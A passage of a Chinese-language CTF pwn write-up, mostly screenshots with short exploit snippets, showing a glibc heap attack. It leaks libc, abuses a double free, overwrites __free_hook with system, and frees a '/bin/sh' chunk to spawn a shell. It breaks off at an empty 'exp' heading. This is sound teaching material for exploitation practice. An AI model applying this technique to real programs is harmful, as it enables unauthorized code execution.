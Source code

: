 [![](assets/1701612363-782932d5d4d0f73693841a99cee89395.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212501-0345e06e-19a5-1.png)  
先泄露个libc基地址

```plain
delete(7)
```

[![](assets/1701612363-251315bc6226ffe444bad3bc0717c156.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212525-11bfaf8a-19a5-1.png)  
能看到合并的chunk

[![](assets/1701612363-76940cdce538abe7d1e57d08feb67dfd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212534-171ce830-19a5-1.png)

[![](assets/1701612363-c179c9fb74f7fe0708801037ef2b084f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212540-1ade2452-19a5-1.png)

```plain
add(10,0x80,'a')
```

留下一个空间

[![](assets/1701612363-ec4b1a566024f5cbcdad518dadae2edb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212557-24a67688-19a5-1.png)

```plain
delete(8)
```

```plain
double free
```

[![](assets/1701612363-c1c3a23a5e1d224caeb8a69bfea30e61.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212611-2d08693a-19a5-1.png)

```plain
payload='a'*0x80+p64(0)+p64(0x91)+p64(__free_hook)
add(11,0xa0,payload)
```

直接申请一个较大的chunk去覆盖就可以了

[![](assets/1701612363-16ca4bea82132d5b609d0c119f0f6e5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212655-4774ba44-19a5-1.png)

```plain
add(12,0x80,'/bin/sh\x00')
add(13,0x80,p64(system_addr))
delete(12)
```

申请写入 '/bin/sh\\x00' ，改 free\_hook 为 system，free一下直接 getshell

[![](assets/1701612363-3021922aff9232cf7d3f170ac1af0ac1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212719-560b63dc-19a5-1.png)

### exp
